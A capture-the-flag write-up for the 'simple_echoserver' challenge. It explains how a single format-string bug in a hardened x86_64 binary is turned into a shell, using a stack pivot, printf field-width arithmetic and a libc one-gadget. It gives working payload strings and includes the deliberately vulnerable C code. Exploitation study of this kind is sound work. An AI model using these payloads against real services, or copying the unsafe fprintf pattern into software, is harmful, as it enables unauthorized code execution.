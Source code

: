 # Writeup

## Overview

No special knowledge needed to solve this challenge, it is only a combination of some small tricks.   

It is obvious that sub_13C1 (loginfo) contains a format-string-vulnerability, but nothing can be leaked because stderr is redirected to /dev/null on remote server.  
Also, the format string vulnerability is only triggered once.  

The binary is x86_64 elf file and full-protected (Full RELRO + PIE + NX enabled).  
Remote environment is Ubuntu 18.04 with [glibc 2.27](http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb)  

## Intended Solution

The intend solution is to get shell with **only one use** of format string attack **without leaking** address.  

Break at 0x1415 (just before the vulnerable fprintf), the stack looks like this:

```
00:0000│ rsp  0x7fffffffe150 ◂— 0x0
01:0008│      0x7fffffffe158 —▸ 0x555555558160 (global_userinfo) ◂— 0x636261 /* 'abc' */
02:0010│ rbp  0x7fffffffe160 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
03:0018│      0x7fffffffe168 —▸ 0x555555555443 (serve+38) ◂— lea    rdi, [rip + 0xc5b]
04:0020│      0x7fffffffe170 ◂— 0x0
... ↓
06:0030│      0x7fffffffe180 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
07:0038│      0x7fffffffe188 —▸ 0x7ffff7dcfa00 (_IO_2_1_stdin_) ◂— 0xfbad208b
08:0040│      0x7fffffffe190 ◂— 0xd68 /* 'h\r' */
09:0048│      0x7fffffffe198 —▸ 0x7ffff7a71148 (__GI__IO_file_underflow+296) ◂— test   rax, rax
0a:0050│      0x7fffffffe1a0 ◂— 0xf705fa00
0b:0058│      0x7fffffffe1a8 ◂— 0xffffffffffffffff
0c:0060│      0x7fffffffe1b0 —▸ 0x5555555550f0 (_start) ◂— endbr64
0d:0068│      0x7fffffffe1b8 ◂— 0xa /* '\n' */
0e:0070│      0x7fffffffe1c0 —▸ 0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— ...
0f:0078│      0x7fffffffe1c8 —▸ 0x5555555550f0 (_start) ◂— endbr64
10:0080│      0x7fffffffe1d0 —▸ 0x7fffffffe380 ◂— 0x1
11:0088│      0x7fffffffe1d8 ◂— 0x0
... ↓
13:0098│      0x7fffffffe1e8 —▸ 0x555555555348 (readlong+127) ◂— mov    rcx, qword ptr [rbp - 0x18]
14:00a0│      0x7fffffffe1f0 —▸ 0x7ffff7dcfa00 (_IO_2_1_stdin_) ◂— 0xfbad208b
15:00a8│      0x7fffffffe1f8 —▸ 0x7fffffffe203 ◂— 0xffe3800000000000
16:00b0│      0x7fffffffe200 ◂— 0x333231 /* '123' */
17:00b8│      0x7fffffffe208 —▸ 0x7fffffffe380 ◂— 0x1
18:00c0│      0x7fffffffe210 ◂— 0x0
19:00c8│      0x7fffffffe218 —▸ 0x7ffff7a723f2 (_IO_default_uflow+50) ◂— cmp    eax, -1
1a:00d0│      0x7fffffffe220 ◂— 0x36 /* '6' */
1b:00d8│      0x7fffffffe228 —▸ 0x555555558163 (global_userinfo+3) ◂— 0x0
1c:00e0│      0x7fffffffe230 —▸ 0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— ...
1d:00e8│      0x7fffffffe238 —▸ 0x55555555528d (readline+39) ◂— mov    r12d, eax
1e:00f0│      0x7fffffffe240 ◂— 0x10055556029 /* ')`UU' */
1f:00f8│      0x7fffffffe248 ◂— 0xc700f7c4629bc400
20:0100│      0x7fffffffe250 ◂— 0x0
... ↓
22:0110│      0x7fffffffe260 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
23:0118│      0x7fffffffe268 —▸ 0x5555555553b3 (getuserinfo+80) ◂— mov    rdx, qword ptr [rbp - 8]
24:0120│      0x7fffffffe270 —▸ 0x7fffffffe380 ◂— 0x1
25:0128│      0x7fffffffe278 ◂— 0xc700f7c4629bc400
26:0130│      0x7fffffffe280 —▸ 0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
27:0138│      0x7fffffffe288 —▸ 0x5555555554d0 (main+30) ◂— mov    eax, 0
28:0140│      0x7fffffffe290 —▸ 0x7fffffffe380 ◂— 0x1
29:0148│      0x7fffffffe298 ◂— 0x0
2a:0150│      0x7fffffffe2a0 —▸ 0x5555555554e0 (__libc_csu_init) ◂— endbr64
2b:0158│      0x7fffffffe2a8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
2c:0160│      0x7fffffffe2b0 ◂— 0x1
2d:0168│      0x7fffffffe2b8 —▸ 0x7fffffffe388 —▸ 0x7fffffffe61f ◂— '/root/simple_echoserver'
2e:0170│      0x7fffffffe2c0 ◂— 0x100008000
2f:0178│      0x7fffffffe2c8 —▸ 0x5555555554b2 (main) ◂— push   rbp
30:0180│      0x7fffffffe2d0 ◂— 0x0
31:0188│      0x7fffffffe2d8 ◂— 0x224c5df7bd9bad4d
32:0190│      0x7fffffffe2e0 —▸ 0x5555555550f0 (_start) ◂— endbr64
33:0198│      0x7fffffffe2e8 —▸ 0x7fffffffe380 ◂— 0x1
34:01a0│      0x7fffffffe2f0 ◂— 0x0
... ↓
36:01b0│      0x7fffffffe300 ◂— 0x771908a2d13bad4d

```

Current call stack is main->sub_141D(serve)->sub_13C1(loginfo), and 0x7fffffffe160—>0x7fffffffe280—>0x7fffffffe2a0 is the RBP chain.  

First, we can do **stack pivot**: use %7$hhn as format string to change the lowest byte in 0x7fffffffe280. After two "leave" instructions (just before function main returns), the changed value will move into RSP.  
Now, if we can leave an one-gadget address on stack and stack pivot to there, we can get shell.  

The "field width" in format string can not only be decimal integer, but also **"\*"** or **"\*m$"** which means picking value from argument.  
So we can **pick a libc address from stack as a field width and combine with another constant field width to do an addition**, then write the result back on stack using "%n". By this method there is no need to leak address.  
(stderr is /dev/null, so write several GB bytes is fast)  

The field width and output length of printf should not overflow INT_MAX (0x7fffffff), or "%n" will fail to write. This means we can only control the lower 4 bytes by above method, so the higher 4 bytes of the origin value in "%n" target should locate in libc area.  

Notice the value in 0x7fffffffe1f8 is a pointer points to stack. It can be adjusted by controlling the input length in sub_12C9(readlong). If **the length of "Your phone: " input is 24**, its value will become 0x7fffffffe218, and 0x7fffffffe218 contains a libc address.  
Now we get **a pointer on stack that points a libc address**, and above method can be used.  

After stack pivot to 0x7fffffffe210 and rewrite 0x7fffffffe218 to one-gadget, all three default gadgets shows by ```one_gadget libc-2.27.so``` seems unsatisfied:  
```
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Use ```one_gadget -l 1 libc-2.27.so``` to search more gadgets, then find 0xe5863 is satisfied when function main returns:
```
0xe5863 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL
```

> Actually, the 0x10a38c one-gadget is also satisfied.  
> Although \[rsp+0x70\] (\[0x7fffffffe290\]) is 0x7fffffffe380, not NULL, but \[rsp+0x70\] is a readable address and \[rsp+0x78\] is NULL, then when execve "/bin/sh" is called, argv\[0\] is valid and argv\[1\] is NULL.  

Final exp: (Full script is [exp.py](./exp.py))  
```
Your name: %3c%7$hhn%357715c%*30$c%26$n
Your phone: 000000000000000000000000
```

> With this input, the stack is:  
> (break at 0x1415)  
> ```
>  7$:    02:0010│ rbp  0x7fffffffe160 —▸ 0x7fffffffe280 —▸ 0x7fffffffe2a0
> 30$:    19:00c8│      0x7fffffffe218 —▸ 0x7ffff7a72300
> 26$:    15:00a8│      0x7fffffffe1f8 —▸ 0x7fffffffe218 —▸ 0x7ffff7a72300
> ```

Success rate: 1/32  
(1/16 to guess half byte of stack address for stack pivot, 1/2 to meet the lower 4 bytes of libc address within \[0, 0x7ffffffff\] for "%n")  


## Other

Due to my carelessness, there are several unintended solutions for this challenge.  
(Only two teams use the intended solution)  

The "vfprintf" function scans format-string from left to right and handles each **immediately** without copying the arguments before it meets the **first** positional parameter ("$"), so the prior "%n" can change the later arguments.  
When "vfprintf" **firstly meets a positional parameter**, it **copies all needed arguments into an internal buffer**. After this time, the prior "%n" cannot change the later arguments anymore.  

With the "pointer to stack" value on stack (e.g. 0x7fffffffe160 —▸ 0x7fffffffe280), we can firstly change the last byte of the value to let it point to any position of stack before using "$" in format-string, then use the changed value to modify value at any stack address.  
Here is a example: (with a success rate of 1/32)  
```
Your name: %c%c%c%c%c%150c%hhn%801828c%*48$c%43$n%61c%7$hhn
```
The "%hhn" uses the 7th argument (0x7fffffffe160 —▸ 0x7fffffffe280) to change the value in 0x7fffffffe280 from 0x7fffffffe2a0 to 0x7fffffffe2a8(where stores the return address of function main).  
Then the "%\*48$c" picks the value in 0x7fffffffe2a8 (__libc_start_main_ret), and the "%43$n" uses the pointer in 0x7fffffffe280 to change the value in 0x7fffffffe2a8 to one-gadget 0xe5863.  
The last "%7$hhn" restores the value in 0x7fffffffe280 with 0x7fffffffe2a0 to keep the RBP chain correct.  

<br />  

Another method does not make use of "\*" in field width. Notice the address of function \_start is at 0x7fffffffe1c8, just do stack pivot to 0x7fffffffe1c0, the program will restart when function main returns, so we can do format-string attack repeatedly.  
In different loop, change a "pointer to stack" pointer value and partially rewrite a program address to &stderr (binary offset 0x4040), the partially rewrite stderr to stdout. Now we can leak address.  
Success rate of this method is 1/4096 (need to guess half byte of stack address, half byte of program address and half byte of libc address).  

<br />  

> If I understood such unintended solutions earlier during the event, maybe I would release a new "Simple Echoserver V2" challenge that limits the input length of "Your name: " into 32 (currently is 256) and only allows to call the vulnerable fprintf once, like this:  
> ```
> void getuserinfo(struct userinfo *info) {
> 	puts("For audit, please provide your name and phone number: ");
> 	printf("Your name: ");
> 	// readline(info->name, 256);
> 	readline(info->name, 32);    // 32 bytes is enough
> 	printf("Your phone: ");
> 	info->phone = readlong();
> }
> 
> void loginfo(struct userinfo *info) {
> 	snprintf(global_buf, BUF_LEN, "[USER] name: %s; phone: %ld\n", info->name, info->phone);
> 	fprintf(stderr, global_buf);    // vuln!
> 	stderr = NULL;    // only log once
> }
> ```
